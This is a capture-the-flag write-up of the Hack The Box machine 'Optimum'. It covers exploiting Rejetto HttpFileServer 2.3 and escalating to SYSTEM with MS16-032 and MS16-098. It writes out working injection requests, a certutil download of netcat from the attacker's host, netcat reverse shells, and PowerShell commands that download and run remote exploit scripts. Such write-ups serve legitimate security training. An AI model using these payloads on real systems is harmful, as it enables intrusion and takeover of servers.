## Overview

Optimum is a Windows Server box running Rejetto HttpFileServer 2.3 that was vulnerable to unauthenticated remote code execution. I was able to leverage the RCE to get an initial foothold. I used sherlock to look for kernel exploits and found that it was vulnerable to MS16-032 (Secondary Logon Service) which was used to create a reverse shell as the 'nt authority/system' account. 

>Secondary Logon provides a means for entering alternate credentials that is often used by administrators to authenticate and perform administrative tasks when logged on with a non-administrator account. The service fails to sanitize handles when creating a new process which can be abused by a standard user to perform privilege escalation as a system service thread pool handle can be duplicated.

## Enumeration

**Software**
* Windows Server 2012 R2
* Rejetto HttpFileServer 2.3

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.8 -oN /mnt/data/boxes/optimum/_full_tcp_nmap.txt
```

* 80/tcp - http

## Steps (user)

The only port open from the nmap scan was port 80 so I browsed to http://10.10.10.8 and was presented with an "HttpFileServer" page.



I looked around the site and played with some functionality but I didn't gain any other useful information. There was a link to log in but I didn't have credentials at this point so I moved on.  Under server information I noted the application name and version - HttpFileServer 2.3 - which is a hyperlink that goes to https://www.rejetto.com/hfs/



Doing a search for in searchsploit for "rejetto" turned up a number of results.



According to 34668, there is a flaw in how ParsetLib.pas handles regex in HttpFileServer which allows for remote code execution. This allowed me to use HFS script commands by using %00 to bypass the filtering.



As a test I sent a command that would ping my machine. First I set up tcpdump to listen for icmp requests on tun0

```
sudo tcpdump -i tun0 icmp
```

Then I set up burp to capture the request and modified the request to ping my box.

```
http://10.10.10.8/?search=%00{.exec|/?search=%00{.exec|c%3a\windows\system32\cmd.exe+/c+ping+-n+1+10.10.14.26.} }
```



I received an icmp echo request which confirmed that I was able execute commands. The next step was to transfer netcat to the box and create a reverse shell.

> Note: Initially I transferred the 32-bit version of netcat but this caused a problem with the exploit. The problem was that I was trying to execute a 64-bit powershell script from a 32-bit version of cmd.exe. The solution was to transfer the 64-bit version of netcat to get a 64-bit shell.

I copied nc64.exe to my working directory and set up a python http server in preparation to transfer files.

```
cp ~/tools/windows-binaries/nc64.exe .
sudo python3 -m http.server 80
```

Using repeater in Burp I sent the following command which uses certutil to download nc64.exe to the target.

```
http://10.10.10.8/?search=%00{.exec|c%3a\windows\system32\cmd.exe+/c+certutil+-urlcache+-split+-f+http%3a//10.10.14.26/nc64.exe.}
```




I set up a netcat listener (rlwrap nc -lvnp 4200) and the executed the command to create the reverse shell - 'nc64.exe -e cmd 10.10.14.26 4200'

```
http://10.10.10.8/?search=%00{.exec|c%3a\windows\system32\cmd.exe+/c+nc64.exe+-e+cmd+10.10.14.26+4200.}
```



## Steps (root/system)

After doing some enumeration and not finding any obvious privilege escalation paths, I proceeded with sherlock to look for kernel exploits. 

I copied sherlock to working directory and started a python http server

```
cp ~/tools/Sherlock/Sherlock.ps1 .
sudo python3 -m http.server 80
```

I used Powershell Invoke-Expression (IEX) to run sherlock in memory, executing the 'Find-AllVuns' function.

```
powershell -nop -exec bypass -c "iex (new-object net.webclient).downloadstring('http://10.10.14.26/Sherlock.ps1');Find-AllVulns"
```

There were a few options available but I decided to go with the well known MS16-032. I used the powershell version from [FuzzySecurity](https://github.com/FuzzySecurity/PowerShell-Suite)




I already had the git repo cloned to my local machine so I copied the script to my working directory.

```
cp ~/tools/PowerShell-Suite/Invoke-MS16-032.ps1 .
```

This exploit creates a pop-up cmd prompt as 'nt authority\system' by default but beacuse I'm not logged in via the gui I modified it to use netcat to create a reverse shell instead.



```
# LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
                $CallResult = [Advapi32]::CreateProcessWithLogonW(
                        "user", "domain", "pass",
                        0x00000002, 'c:\windows\system32\cmd.exe', '/c C:\users\kostas\desktop\nc64.exe -e cmd 10.10.14.26 4201',
                        0x00000004, $null, $GetCurrentPath,
                        [ref]$StartupInfo, [ref]$ProcessInfo)

```

On the target box I used powershell IEX again to download the powershell script and execute the 'Invoke-MS16-032' function.

```
powershell -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.26/Invoke-MS16-032.ps1');Invoke-MS16-032
```

The exploit failed at first with "No valid thread handle was captured, exiting." The reason for this is that I was executing a 64-bit exploit in a 32-bit shell. A full explanation can be found here: https://spencerdodd.github.io/2017/07/20/WOW64/



Once the script was executed in a 64-bit shell I received a callback on my netcat listener and shell as 'nt authority\system' user.



## Steps (root/system - alternate)

When I did this box originally I used MS16-098 for privilege escalation which was listed by windows-exploit-suggester. For this write-up I decided to use Sherlock instead but for some reason it didn't list MS16-098. I used this as an opportunity to try a different exploit. 

> Additional information about MS16-098 can be found here https://sensepost.com/blog/2017/exploiting-ms16-098-rgnobj-integer-overflow-on-windows-8.1-x64-bit-by-abusing-gdi-objects/

First I copied the output of the 'systeminfo' command on the target box and saved it to a file. I ran windows-exploit-suggester to see which vulnerability were applicable.

```
/windows-exploit-suggester.py -l --database 2019-11-17-mssb.xls --systeminfo sysinfo.txt
```



I downloaded bfill.exe from the sensepost [github repo](https://github.com/sensepost/ms16-098) and transferred it to the target machine using the python http server and certutil as described earlier. I received root shell right on the box.


